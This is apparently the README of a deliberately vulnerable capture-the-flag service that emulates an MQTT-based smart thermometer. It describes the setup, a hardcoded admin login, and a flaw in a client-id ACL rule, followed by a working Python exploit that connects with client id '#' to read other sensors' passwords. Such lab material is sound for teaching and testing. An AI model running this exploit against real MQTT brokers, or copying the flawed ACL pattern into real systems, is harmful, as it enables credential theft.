 # Thermometer service

## About

Thermometer service emulates smart temperature module. It consists of four elements: MQTT-broker, MySQL database, themperature sensor and web interface for management.

### MQTT broker

Docker image `thermometer/mqtt-broker` contains [Mosquitto](https://mosquitto.org/) MQTT broker.
As written on the [mosquitto.org](https://mosquitto.org/):
>Eclipse Mosquitto™ is an open source (EPL/EDL licensed) message broker that implements the MQTT protocol versions 3.1 and 3.1.1. MQTT provides a lightweight method of carrying out messaging using a publish/subscribe model. This makes it suitable for "Internet of Things" messaging such as with low power sensors or mobile devices such as phones, embedded computers or microcontrollers like the Arduino.

It supports client authentication (users + passwords) and authorization (acls). To store authentication and authorization information in MySQL Mosquitto uses [mosquitto-auth-plug](https://github.com/jpmens/mosquitto-auth-plug) authentication plugin. This information is stored in the `mqtt.users` and `mqtt.acls` tables.

`thermometer/mqtt-broker` docker image exposes 1883 tcp port outside. Sensor uses broker to send temperature data. Client use broker to read data from sensors.

### MySQL

Docker image `thermometer/mqtt-db` wraps MySQL server. It contains single db (`mqtt`), two tables (`users` and `acls`) and two users (`mqtt_broker` and `thermometer_module`).
MQTT broker uses `mqtt_broker` user to read auth info from `mqtt-db` database.
Thermometer module uses `thermometer_module` user to add new MQTT users and acls for them.

### Termometer Sensor

Docker image `thermometer/sensor` contains an emulator of temperature sensor. It sends current (random) temperature to MQTT topic `house/temperature`.
To allow sensor to send temperature data, `admin` user should add MQTT authentication info for the sensor. He can do it via Termometer Module web interface.

After that sensor can publish temperature to `house/temperature` topic.

### Temperature Module

Docker image `thermometer/module` contains service to manage MQTT authentication and authorization.
It allows admin user (`admin:webrelay`) to:
* create MQTT user (`<sensor mqtt client id>:<auth token>`) and acl (permission to write to `house/temperature` topic) for sensor.
* create MQTT user (`<user name>:<password>`) and acl (permission to read from `house/temperature` topic) for temperature data consumer.

Module exposes HTTP port 8888 outside. 

## Vulnerabilities

### Read sensor authentication info

Thermometer module authorises sensor via MQTT: it sends MQTT password to topic `house/authorization/<sensor_mqtt_client_id>`.
To disallow anonymous users to read other sensor password there is an acl rule in `mqtt.acls` table:

```
+----+--------------------+------------------------+----+
| id | username           | topic                  | rw |
+----+--------------------+------------------------+----+
| .. | ..                 | ..                     | .. |
|  2 | anonymous          | house/authorization/%c |  1 |
| .. | ..                 | ..                     | .. |
+----+--------------------+------------------------+----+
```

This rule expands `house/authorization/%c` to `house/authorization/<mqtt_client_id>`.

But if you pass `#` as `mqtt_client_id` you will get new MQTT passwords (flags) after subscribing to topic `house/authorization/#`.

Exploit:

```python
#!/usr/bin/env python3

import paho.mqtt.client as mqtt
import sys

def on_connect(client, userdata, flags, rc):
    print("Connected to MQTT broker.")
    client.subscribe("house/authorization/#")
    print("Subscribed to topic 'house/authorization/#'.")
    print("Waiting for flags...")

def on_message(client, userdata, msg):
    print(msg.payload)

def exploit(host):
    client = mqtt.Client(client_id="#", clean_session=True)
    client.on_connect = on_connect
    client.on_message = on_message

    print("Connecting to MQTT broker on %s" % host)
    client.connect(host, 1883, 60)
    client.loop_forever()


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print('USAGE: %s <host>' % sys.argv[0])
        exit(-1)

    sys.exit(exploit(sys.argv[1]))
```
